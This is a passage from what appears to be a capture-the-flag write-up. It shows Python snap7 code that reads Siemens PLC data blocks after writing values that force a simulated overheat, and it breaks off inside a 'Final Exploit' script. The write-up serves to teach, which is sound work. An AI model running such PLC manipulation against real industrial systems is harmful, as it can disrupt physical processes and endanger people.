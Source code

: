 ```python

    time.sleep(5)
```

The server confirms the overheat condition is met, and the logs are updated.

![alt text](assets/write-correct-values.png)

The server now inform us that an overheat is detected and we should check the logs for more details which are located in the 4th DB.

![alt text](assets/server-flag.png)

By again reading all the DBs for ease we can find the flag :).

```python
    print("\nReading states:")

    read(1, 0, size)  # DB1 full

    read(2, 0, size)  # DB2 full

    read(3, 0, size)  # DB3 full

    read(4, 0, 100)  # DB4 full FLAG :)

    read(5, 0, size)  # DB5 full
```

## Final Exploit

Here’s the full exploit script that ties it all together:

```python
import snap7

import time



def read(db_num, offset, size):

    try:

        data = client.db_read(db_num, offset, size)

        text = data.decode('utf-8', errors='ignore').rstrip('\x00')

        print(f"DB{db_num} [offset {offset}, size {size}]: {text}")

        return text

    except Exception as e:
```